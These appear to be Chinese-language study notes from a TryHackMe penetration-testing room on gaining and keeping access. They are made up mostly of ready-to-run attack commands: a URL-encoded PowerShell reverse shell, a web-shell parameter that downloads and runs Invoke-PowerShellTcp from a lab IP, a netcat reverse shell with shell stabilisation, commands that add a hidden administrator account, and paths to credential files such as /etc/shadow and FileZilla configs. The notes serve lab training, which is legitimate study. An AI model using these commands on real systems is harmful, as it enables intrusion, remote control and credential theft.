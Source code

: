 			--> Windows : URL 編碼的 Powershell 反向 Shell
				--> powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D
				
				--> ?cmd=powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.11.92.230:9999/2024_5_CTF/try_hack_me/Jr_Penetration_Tester/task/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.11.92.230 -Port 2345"
			
		--> Invoke-PowerShellTcp  :
			--> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
			
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Next step : 尋找機會存取使用者帳戶
		--> Linux 
			--> SSH key : /home/<user>/.ssh
			
			--> CVE-2016-5195 : https://dirtycow.ninja/
			--> /etc/shadow
			--> /etc/passwd
			
		--> Windows
			--> VNC 伺服器 : 以明文形式儲存在註冊表中
			--> FileZilla FTP 伺服器 : XML檔案中 -- MD5 Hash 或純文字形式
				--> C:\Program Files\FileZilla Server\FileZilla Server.xml
				--> C:\xampp\FileZilla Server\FileZilla Server.xml
			
			--> 以 SYSTEM 使用者身分執行的 shell 
				--> 將您自己的帳戶（在管理員群組中）新增至計算機
				--> 透過RDP、 telnet 、 winexe 、 psexec 、 WinRM 或任意數量的其他方法登錄
				--> net user <username> <password> /add
				--> net localgroup administrators <username> /add
## linux Ubuntu 18.04 server  : 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 1: 
		--> 將 Webshel​​l 上傳到 Linux 機器
			--> uploads (webshell.php) to server 
		--> 將反向 shell 傳送 : 
			--> url?cmd=nc 10.11.92.230 7777 -e /bin/bash
			--> kali : nc -lvnp 7777
				
			--> 穩定netcat : 
				--> python3 -c 'import pty;pty.spawn("/bin/bash")'
				--> export TERM=xterm
				--> out : Ctrl + Z
				--> go : stty raw -echo; fg
				
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> task 2:
		--> sudo nano /usr/share/webshells/php/php-reverse-shell.php
			--> 更改 IP 和端口
			--> tun0 IP
		--> sudo cp /usr/share/webshells/php/php-reverse-shell.php php-reverse-shell.php
		